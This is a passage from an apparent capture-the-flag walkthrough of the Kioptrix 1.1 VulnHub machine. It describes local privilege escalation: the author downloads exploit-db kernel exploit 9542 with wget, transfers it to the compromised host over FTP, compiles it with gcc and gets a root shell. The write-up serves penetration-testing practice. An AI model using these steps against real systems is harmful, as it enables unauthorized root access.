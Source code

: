 ```bash
which gcc
/bin/gcc
```


....hmmmm...Let's [google](https://www.exploit-db.com/exploits/9542).

And there looks to be a suitable kernel exploit. Okay, let's try it out.

I'll first download the exploit and rename it to a gcc-friendly `.c` file name:

```bash
ein@~/VulnHub/Kioptrix1.1:$ wget https://www.exploit-db.com/download/9542
mv 9542 exploit.c
```

Now let's migrate it to the compromised host using FTP again:

```bash
get exploit.c
local: exploit.c remote: exploit.c
227 Entering Passive Mode (10,0,0,168,165,104)
150 Accepted data connection
226-File successfully transferred
226 0.000 seconds (measured here), 29.97 Mbytes per second
2645 bytes received in 0.000125 secs (2.1e+04 Kbytes/sec)
ftp> exit
exit
221-Goodbye. You uploaded 32 and downloaded 3 kbytes.
221 Logout.
bash-3.00$ ls
ls
exploit.c  LinEnum.sh  lol.txt
```

Sweet, now let's simply compile and run the exploit using `gcc`.

![Root!](/assets/img/VulnHub/Kioptrix1.1_8.PNG)

And we successfully privilege escalated and spawned a root shell. Rooted!
